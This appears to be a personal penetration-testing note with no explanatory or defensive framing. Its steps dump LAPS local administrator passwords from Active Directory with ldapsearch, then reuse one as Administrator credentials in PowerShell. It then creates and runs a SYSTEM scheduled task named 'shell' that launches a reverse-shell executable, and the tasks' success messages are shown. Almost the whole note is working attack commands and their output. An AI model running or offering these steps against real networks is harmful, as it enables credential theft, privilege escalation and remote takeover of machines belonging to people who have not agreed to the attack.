```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20220328113745.png]]

```bash - kali
ldapsearch -v -x -D $USER@$HOSTNAME.$DOMAIN -w $PASSWORD -b "DC=$HOSTNAME,DC=$DOMAIN" -h $TARGET "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

```powershell - windows
powershell
```

Use found password from above here.

```powershell - windows
$pw = ConvertTo-SecureString "$PASSWORD" -AsPlainText -Force
```

```powershell - windows
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```

Make sure the path to reverse.exe is correct below.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\Windows\Temp\Tools\reverse64.exe /ru SYSTEM } -Credential $creds
```

![[rlwrap]]

SUCCESS: The scheduled task "shell" has successfully been created.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

SUCCESS: Attempted to run the scheduled task "shell".
